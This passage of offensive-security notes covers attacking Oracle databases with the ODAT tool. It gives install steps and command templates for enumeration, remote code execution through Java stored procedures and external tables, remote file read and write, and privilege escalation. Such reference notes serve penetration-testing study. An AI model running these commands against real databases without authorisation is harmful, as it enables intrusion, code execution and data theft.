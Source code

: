             pip3 install cx_Oracle
            sudo apt-get install python3-scapy
            sudo pip3 install colorlog termcolor pycrypto passlib python-libnmap
            sudo pip3 install argcomplete
            sudo activate-global-python-argcomplete
            sudo pip3 install pyinstaller
            "Done! test with python3 odat.py -h"
            ```
	- 2\. Start enumeration: `python3 odat.py all -s <target IP> -p <PORT>`

##### _Attack Oracle database:_
- Remote Code Execution: 
	- Execute Code via Java Stored Procedure: `python3 odat.py java -s <IP> -U <username> -P <password> -d <SID> --exec <COMMAND>`
	- Execute code via External Tables: `python3 odat.py externaltable -s <IP> -U <username> -P <password> -d <SID> --exec "C:/windows/system32" "calc.exe"`
- Read/write files:
	- Read file: `python3 odat.py utlfile -s <IP> -d <SID> -U <username> -P <password> --getFile "<remote path>" <remote file name> <local file name>`
	- Write file: `python3 odat.py utlfile -s <IP> -d <SID> -U <username> -P <password> --putFile "<remote path>" <remote file name> <local file name>`
- Escalate privileges \(multiple options available\): `python3 odat.py privesc s <IP> -U <username> -P <password> -d <SID> -h`
